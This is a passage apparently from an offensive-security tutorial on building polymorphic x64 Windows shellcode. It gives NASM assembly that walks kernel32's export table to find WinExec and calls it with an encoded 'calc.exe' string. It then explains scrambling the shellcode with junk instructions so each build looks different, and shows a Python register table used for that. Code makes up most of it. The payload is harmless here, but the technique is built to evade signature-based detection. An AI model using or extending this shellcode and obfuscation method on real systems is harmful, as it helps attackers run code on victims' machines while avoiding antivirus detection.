 ```nasm
    xor ebx,ebx                   ; Zero EBX for use
    mov ebx, [r11+rcx*4]          ; EBX = RVA for first AddressOfName
    add rbx, r8                   ; RBX = Function name VMA / add kernel32 base address to RVA and get WinApi name
    dec rcx                       ; Decrement our loop by one, this goes from Z to A
    mov r9, qword [rax]                ; R9 = "our API"
    cmp [rbx], r9                      ; Compare all bytes
    jz FunctionNameFound               ; If match, function found
	jnz kernel32findfunction
FunctionNameNotFound:
int3
FunctionNameFound:                ; Get function address from AddressOfFunctions
   inc ecx                        ; increase counter by 1 to account for decrement in loop
   xor r11, r11
   mov r11d, [rdx+0x1c]           ; AddressOfFunctions RVA
   add r11, r8                    ; AddressOfFunctions VMA in R11. Kernel32+RVA for addressoffunctions
   mov r15d, [r11+rcx*4]          ; Get the function RVA.
   add r15, r8                    ; Found the Winexec WinApi and all the while skipping ordinal lookup! w00t!
   xor rax, rax
   push rax
   mov rax, 0x9A879AD19C939E9C    ; encoded calc.exe ;)
   not rax
   push rax
   mov rcx, rsp	                 
   xor rdx, rdx
   inc rdx
   sub rsp, 0x30
   call r15                       ; Call WinExec
```

Okay, so now that we have our assembly code, we need to move on to the next step and scramble it.  This is part 1 of our polymorphic shellcode preparations.  The code below will insert benign assembly instructions throughout our assembly code where it will be completely unique each time it is compiled into shellcode.  Basically what I did was check for registers already in use and those that I determined weren't in use would be the registers chosen for the scrambled assembly instruction code insertion.  For instance, here's all the possible x64 register combinations we will search for and use:

```python
all_reg_variants = {
    'rax': ['rax', 'eax', 'ax', 'al', 'ah'],
    'rcx': ['rcx', 'ecx', 'cx', 'cl', 'ch'],
    'rdx': ['rdx', 'edx', 'dx', 'dl', 'dh'],
    'rbx': ['rbx', 'ebx', 'bx', 'bl', 'bh'],
    'rsp': ['rsp', 'esp', 'sp', 'spl'],
    'rbp': ['rbp', 'ebp', 'bp', 'bpl'],
    'rsi': ['rsi', 'esi', 'si', 'sil'],
    'rdi': ['rdi', 'edi', 'di', 'dil'],
    'r8': ['r8', 'r8d', 'r8w', 'r8b'],
    'r9': ['r9', 'r9d', 'r9w', 'r9b'],
    'r10': ['r10', 'r10d', 'r10w', 'r10b'],
    'r11': ['r11', 'r11d', 'r11w', 'r11b'],
    'r12': ['r12', 'r12d', 'r12w', 'r12b'],
    'r13': ['r13', 'r13d', 'r13w', 'r13b'],
    'r14': ['r14', 'r14d', 'r14w', 'r14b'],
    'r15': ['r15', 'r15d', 'r15w', 'r15b'],
}
```

